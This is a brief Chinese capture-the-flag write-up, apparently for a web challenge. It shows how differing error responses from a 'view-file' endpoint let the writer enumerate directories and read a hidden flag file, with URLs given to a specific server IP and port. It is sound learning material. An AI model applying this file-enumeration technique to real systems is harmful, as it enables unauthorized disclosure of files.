  
这里回显log是一个目录，而不存在的文件或目录直接是access denied  
因此可以扫目录或文件  
<http://34.135.223.176:10404/view-file?file=.hidden>  
  
得到一个.hidden目录  
尝试访问隐藏文件  
<http://34.135.223.176:10404/view-file?file=.hidden/flag.txt>文件名很普通  
得到flag
